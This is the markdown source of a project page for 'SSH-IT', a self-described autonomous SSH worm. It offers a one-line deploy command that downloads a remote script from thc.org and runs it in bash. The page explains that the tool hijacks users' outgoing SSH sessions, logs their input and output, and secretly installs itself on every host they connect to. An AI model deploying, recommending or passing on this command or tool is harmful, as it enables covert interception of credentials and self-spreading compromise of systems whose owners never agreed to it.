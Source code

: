 ```yaml
---
layout: default
title: SSH-IT
description: An autonomous SSH worm that intercepts outgoing SSH connections every time a user uses ssh.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<!-- <style>a[href="/ssh-it/"] { font-weight: bold; }</style> -->
<!-- End of ugly CSS navigation styling hack -->

{% include nav-ssh-it-v1.html margin-top="0" margin-bottom="4rem" %}

<div style="width:80%; margin:auto">
    <script id="asciicast-LNmtdthAM1WewOs12ZnHd8RyC" src="https://asciinema.org/a/LNmtdthAM1WewOs12ZnHd8RyC.js" async data-autoplay=1 data-speed="1.5"></script>
</div>

## Install / Deploy

SSH-IT can be installed and deployed with a [single command](deploy):

```shell
bash -c "$(curl -fsSL https://thc.org/ssh-it/x)"
```

[Read more](deploy) and learn some [tricks](deploy).

## What it does

SSH-IT intercepts outgoing SSH connections every time a user uses `ssh`. It logs the session and (secretly) installs itself onto the newly connected system. SSH-IT keeps intercepting, logging and spreading.

## How it works

SSH-IT executes the original ssh command inside a fake PTY harness and intercepts any user input and output. None of the system binaries are modified and it does not need `ptrace()`. It does not require root or superuser privileges.

Read our [detailed explanation](how-it-works) for more information.

## Contact

{% include contact-details.md %}


